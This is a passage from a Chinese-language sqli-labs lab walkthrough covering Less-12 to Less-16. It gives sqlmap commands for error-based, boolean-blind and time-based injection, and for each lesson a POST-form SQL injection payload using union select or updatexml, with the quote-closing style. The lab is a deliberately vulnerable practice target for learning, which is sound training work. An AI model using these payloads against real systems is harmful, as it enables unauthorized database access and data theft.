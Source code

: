 sqlmap -r post.txt --dbms=MySQL --random-agent --flush-session --technique=E -v 3

布尔盲注

sqlmap -r post.txt --dbms=MySQL --random-agent --flush-session --technique=B -v 3

延时注入

sqlmap -r post.txt --dbms=MySQL --random-agent --flush-session --technique=T -v 3

## Less-12

    请求方式 post
    
    闭合方式 ")
    
    攻击测试 uname=-1") union select 1,version()#&passwd=&submit=Submit
    
        

注入方式 联合，报错，布尔，延时

## Less-13

    请求方式 post
    
    闭合方式 ')
    
    攻击测试 uname=1') and updatexml(1,concat('^',version(),'^'),1)#&passwd=&submit=Submit
    
        

注入方式 报错，布尔，延时

## Less-14

    请求方式 post
    
    闭合方式 "
    
    攻击测试 uname=1" and updatexml(1,concat('^',database(),'^'),1)#&passwd=&submit=Submit
    
    注入方式 报错，布尔，延时
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201217154240142.png)

## Less-15

    请求方式 post
    
    闭合方式 '
    
    攻击测试 uname=admin' and 1=2#&passwd=&submit=Submit
    
    注入方式 布尔，延时
    
        

## Less-16
